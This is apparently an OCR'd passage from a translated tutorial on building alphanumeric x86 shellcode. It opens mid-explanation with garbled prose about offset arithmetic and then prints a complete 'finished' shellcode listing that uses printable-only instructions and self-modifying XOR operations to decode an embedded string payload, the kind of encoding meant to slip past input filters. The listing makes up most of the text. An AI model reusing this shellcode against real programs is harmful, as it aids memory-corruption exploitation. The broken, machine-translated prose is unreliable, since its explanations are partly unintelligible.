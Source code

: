 

must [eax + 40] has this value is

So we add 0x76 – 0x28 in eax for getting the right byte, ie add 0x4e.
Even the calculation to determine what to avoid, knowing that they must subtract
corresponding to displayable characters!

0 – 6D6D6D30 = 929292D0 – 51515130 = 414141A0 – 41414152 = 4E

The account is good!

Our shellcode is finished:

```asm
dec esp
dec esp
dec esp
dec esp
pop edx
push dword 0x58494741
pop eax
xor eax, 0x58494741
dec eax
push esp
pop ecx
push edx
push ecx
push edx
push eax
push esp
push ebp
push esi
push edi
popad
sub eax, 0x6D6D6D30
sub eax, 0x51515130
sub eax, 0x41414152
xor [eax + 41], bh
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050
pop dx
xor [eax + 49], dh
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh
xor [eax + 63], dh
xor [eax + 64], bh
xor [eax +65], dh
xor [eax + 66], bh
xor [eax +67], dh
xor [eax + 68], bh
xor [eax +69], bh
xor [eax +69], dh
xor [eax + 71], bh
xor [eax + 72], bh
xor [eax +73], dh
xor [eax + 74], bh
xor [eax + 75], bh
xor [eax +75], dh
db '1?$1161-MYjZhthanhjonavNLQOT2/OQ2$1/'
```
